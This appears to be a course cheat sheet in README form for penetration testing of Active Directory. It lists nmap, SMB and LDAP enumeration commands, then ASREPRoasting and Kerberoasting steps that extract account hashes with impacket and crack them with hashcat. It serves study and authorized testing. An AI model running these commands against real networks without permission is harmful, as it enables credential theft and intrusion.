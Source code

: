 # Active Directory Cheat sheet - ITHS2023

A comprehensive collection of commands and tools for performing penetration testing in Active Directory (AD) environments. This toolkit focuses on reconnaissance, enumeration, and exploitation techniques, providing practical examples and usage instructions.

## Table of Contents

- [Overview](#overview)
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
  - [ASREPRoasting](#asreproasting)
  - [Kerberoasting](#kerberoasting)
- [Post-Exploitation](#post-exploitation)
- [Resources](#resources)

## Overview
This repository provides a categorized list of tools and commands for AD penetration testing. It includes techniques for reconnaissance, enumeration, and various exploitation methods, such as Kerberoasting and ASREPRoasting.

## Reconnaissance

### Network Enumeration
- **Enumerate SMB across a subnet:**
  ```bash
  netexec smb 10.2.10.1/24
  ```

### Nmap Scans
- **Ping scan:**
  ```bash
  nmap -sP -p
  ```
- **Quick scan:**
  ```bash
  nmap -PN -sV --top-ports 50 --open
  ```
- **SMB vulnerability scan:**
  ```bash
  nmap -PN --script smb-vuln* -p139,445
  ```
- **Classic scan:**
  ```bash
  nmap -PN -sC -sV -oA
  ```
- **Full scan:**
  ```bash
  nmap -PN -sC -sV -p- -oA
  ```
- **UDP scan:**
  ```bash
  nmap -sU -sC -sV -oA
  ```
- **Scan with no ping and save output:**
  ```bash
  nmap -sC -sV -Pn -p- -oA filename -vv
  ```

## Enumeration

### LDAP Enumeration
- **Basic LDAP search:**
  ```bash
  ldapsearch -x -h <ip> -s base
  ```
- **Nmap LDAP enumeration:**
  ```bash
  nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
  ```

### SMB Enumeration
- **Null session enumeration:**
  ```bash
  enum4linux -a -u "" -p ""
  ```
- **Guest session enumeration:**
  ```bash
  enum4linux -a -u "guest" -p ""
  ```
- **Check SMB shares and permissions:**
  ```bash
  smbmap -u "" -p "" -P 445 -H <ip>
  ```
- **Connect to SMB server:**
  ```bash
  impacket-smbclient domain/user@<ip>
  ```

### User Enumeration
- **List users on the domain:**
  ```bash
  enum4linux -U | grep 'user:'
  ```
- **Retrieve users via netexec:**
  ```bash
  netexec smb --users
  ```
- **Enumerate domain users via net RPC:**
  ```bash
  net rpc group members 'Domain Users' -W '' -I '' -U '%'
  ```
- **Enumerate Kerberos users:**
  ```bash
  nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='',userdb=<users_list_file>"
  ```

## Exploitation

### ASREPRoasting
- **Find users without Kerberos preauthentication enabled and save hashes:**
  ```bash
  impacket-GetNPUsers domain/ -usersfile userfile.txt -format hashcat -outputfile hashfile
  ```
- **Crack hashes using hashcat:**
  ```bash
  hashcat -m 18200 hashes wordlist.txt
  ```

### Kerberoasting
- **List users with SPNs:**
  ```bash
  impacket-GetUserSPNs domain/user:password
  ```
- **Save Kerberoast hashes:**
  ```bash
  impacket-GetUserSPNs domain/user:password -outputfile hashes -request
  ```
- **Alternative approach using netexec:**
  ```bash
  netexec ldap <dc_ip> -u <user> -p <password> -d <domain> --kerberoasting KERBEROASTING
  ```

## Post-Exploitation

- **Extract user list for OSINT:**
  Use gathered usernames for further reconnaissance on the internet to identify related information.

## Resources

- [Impacket GitHub Repository](https://github.com/SecureAuthCorp/impacket)
- [Hashcat Official Website](https://hashcat.net/hashcat/)
- [Nmap Official Documentation](https://nmap.org/docs.html)
- [enum4linux GitHub Repository](https://github.com/Carnal0wnage/enum4linux)

---

### Feedback
Contributions, corrections, or improvements are welcome. Please create a pull request or open an issue on this repository.

